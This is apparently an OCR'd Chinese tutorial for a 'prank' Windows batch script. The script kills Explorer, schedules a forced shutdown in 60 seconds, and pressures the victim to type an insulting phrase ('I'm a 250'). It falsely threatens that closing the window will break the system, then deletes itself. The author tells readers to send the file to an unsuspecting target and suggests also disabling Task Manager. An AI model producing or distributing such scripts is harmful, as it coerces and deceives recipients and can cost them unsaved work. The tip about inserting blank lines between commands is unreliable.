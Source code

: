 > 今天简单休息一下，我们来写个恶搞代码。
（如果有必要你可以加上禁用任务管理器，但是未免有点太狠毒了）

步骤：
1.新建一个文本文档，将后缀名改为`.bat`。
2.右键，点击“编辑”，输入代码：

```powershell
@echo off

chcp 65001 >nul

set target="我是250"

title 快在下面输入%target%，否则后果自负！

color 0A

shutdown /s /t 60 /c "快点输入！"

taskkill /im "explorer.exe" /f

echo 快点在下面输入%target%，否则1分钟后关机！

echo 你现在无法逃避，因为我已经关闭你的电脑的资源

管理器了！

echo 不许关闭这个窗口，否则你会打不开系统的！信不

信由你！

echo.

:input

set /p input=在这里输入%target%：

if "%input%" == %target% (

echo.

echo 哈哈，真乖。

call "%WINDIR%\explorer.exe"

shutdown /a 

ping 127.0.1 /n 3 >nul

del %0

) else (

echo.

echo 快点输入！

goto input

)

```
代码完成了。注意不要打开，直接发送给你要恶搞的人吧！一定要注意隔一行写一句代码否则有可能会报错！
